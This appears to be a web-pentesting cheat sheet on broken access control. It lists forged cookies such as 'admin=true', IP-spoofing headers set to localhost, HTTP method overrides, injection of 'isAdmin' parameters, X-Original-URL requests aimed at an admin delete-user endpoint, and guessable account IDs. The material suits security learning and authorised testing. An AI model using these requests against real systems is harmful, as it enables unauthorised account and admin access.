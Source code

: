 ```yaml
---
title: Broken Access Control
desc: 
tags: [Access, Burp, Control, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change Header Values

1. **Cookie**

    You may be able to get access to the login-required pages.

    ```
    Cookie: admin=true
    Cookie: isAdmin=true
    Cookie: access=1
    Cookie: access=true
    ```

2. **IP Spoofing**

    ```
    Cluster-Client-IP: 127.0.0.1
    Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Original-URL: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-ProxyUser-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-IP: 127.0.0.1

    Host: 127.0.0.1
    ```

<br />

## 2. Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## 3. Change POST Params

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## 4. Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## 5. Change Query Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```
